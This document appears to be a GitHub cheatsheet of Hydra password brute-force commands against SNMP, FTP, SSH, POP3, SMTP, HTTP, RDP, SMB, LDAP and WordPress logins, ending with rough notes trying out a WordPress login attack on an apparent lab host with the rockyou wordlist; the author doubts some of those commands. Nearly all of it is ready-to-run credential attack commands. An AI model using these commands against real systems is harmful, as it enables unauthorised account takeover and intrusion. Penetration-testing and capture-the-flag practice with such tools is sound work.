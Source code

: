 # Hydra-Cheatsheet
Hydra Password Cracking Cheetsheet

The following table uses the $ip variable which can be set with the following command:  

`export ip 10.10.10.1`


| Command                                                                                                                                   | Description                                          |
| ----------------------------------------------------------------------------------------------------------------------------------------- | ---------------------------------------------------- |
| hydra -P password-file.txt -v $ip snmp                                                                                                    | Hydra brute force against SNMP                       |
| hydra -t 1 -l admin -P /usr/share/wordlists/rockyou.txt -vV $ip ftp                                                                       | Hydra FTP known user and rockyou password list       |
| hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u $ip ssh                                                                              | Hydra SSH using list of users and passwords          |
| hydra -v -V -u -L users.txt -p "<known password>" -t 1 -u $ip ssh                                                                         | Hydra SSH using a known password and a username list |
| hydra $ip -s 22 ssh -l <user> -P big_wordlist.txt                                                                                         | Hydra SSH Against Known username on port 22          |
| hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f $ip pop3 -V                                                                          | Hydra POP3 Brute Force                               |
| hydra -P /usr/share/wordlistsnmap.lst $ip smtp -V                                                                                         | Hydra SMTP Brute Force                               |
| hydra -L ./webapp.txt -P ./webapp.txt $ip http-get /admin                                                                                 | Hydra attack http get 401 login with a dictionary    |
| hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://$ip                                                           | Hydra attack Windows Remote Desktop with rockyou     |
| hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt $ip smb                                                             | Hydra brute force SMB user with rockyou:             |
| hydra -l admin -P ./passwordlist.txt $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location' | Hydra brute force a Wordpress admin login            |
| hydra -L usernames.txt -P passwords.txt $ip smb -V -f                                                                                     | SMB Brute Forcing                                    |
| hydra -L users.txt -P passwords.txt $ip ldap2 -V -f                                                                                       | LDAP Brute Forcing                                   |
Use Burp to get info required for website login pages
example:
```html
Cookie: wordpress_test_cookie=WP+Cookie+check; comment_author_4234445d7d75b662059eadc24ba39ce1=aaaaaaaaaaaaaa; comment_author_email_4234445d7d75b662059eadc24ba39ce1=aaaaa%40mail.com; comment_author_url_4234445d7d75b662059eadc24ba39ce1=http%3A%2F%2Faaaaaaaaaaaaaaaaaaaaaa
Upgrade-Insecure-Requests: 1

log=elyana&pwd=Password&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.7.16%2Fwordpress%2Fwp-admin%2F&testcookie=1
```

And the page to interact with, and also note the failed message
```html
POST /wordpress/wp-login.php
```

something like this
```python
hydra -l elyana -P /usr/share/wordlists/rockyou.txt 10.10.7.16 https-post-form "/wordpress/wp-login.php:log=elyana&pwd=Password&wp-submit=Log+In:incorrect" 
```

only this is working atm, but i don't think it's correct.
```python
hydra -l elyana -P /usr/share/wordlists/rockyou.txt 10.10.7.16 -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'
```

```python
hydra -l elyana -P /usr/share/wordlists/rockyou.txt 10.10.7.16 -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.7.16%2Fwordpress%2Fwp-admin%2F&testcookie=1'
```

try adding /wordpress, i just noticed it's missing from the latest command
I think we may need to remove the redirect and try with log+in:incorrect, 